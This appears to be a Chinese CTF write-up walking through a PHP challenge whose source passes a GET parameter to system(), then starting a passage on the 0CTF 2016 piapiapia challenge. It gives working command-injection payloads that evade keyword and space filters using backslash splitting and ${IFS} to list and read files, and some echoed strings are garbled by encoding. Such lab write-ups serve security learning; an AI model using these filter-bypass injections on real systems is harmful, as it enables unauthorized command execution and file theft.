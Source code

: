 看`level 3`

```php
//get flag
if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
        echo "鎯冲埌杩欓噷, 鎴戝厖瀹炶€屾鎱�, 鏈夐挶浜虹殑蹇箰寰€寰€灏辨槸杩欎箞鐨勬湸瀹炴棤鍗�, 涓旀灟鐕�.</br>";
        system($get_flag);
    }else{
        die("蹇埌闈炴床浜�");
    }
}else{
    die("鍘婚潪娲插惂");
}
?> 

```


`strstr()`： 查找字符串的首次出现
`str_ireplace(1，2，3)`：把`3`中的`1`替换为`2`
首先参数中不能有空格，其次就是将参数中的`cat`替换为`wctf2020`
* 关键字绕过可能用`\`拼接
* 空格的话或许可以用`${IFS}`绕过，等等试一试
先找一下flag在哪

`/fl4g.php?num=1e10&md5=0e215962017&get_flag=ls`

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210614180536392.png)

emm应该是在这个名字最长的文件中，我们试着`cat`一下
`fl4g.php?num=1e10&md5=0e215962017&get_flag=ca\t${IFS}fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag`

噢~成了

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210614180739698.png)
**嗯~之前学的绕过挺有用的**


# [0CTF 2016]piapiapia

一开始以为是`sql`注入，但是试了试不大行
看别人的博客才知道`register.php`这个网页可以猜出来，那就猜

* 注册账户并登录
* 完善信息
* 之后会将个人信息输出在`profile.php`页面上

![在这里插入图片描述](https://img-blog.csdnimg.cn/2021061418374244.png)

但是都没有找到什么过滤的信息，我以为传头像有图片马，谁知道不能连，所以寻找网站源码
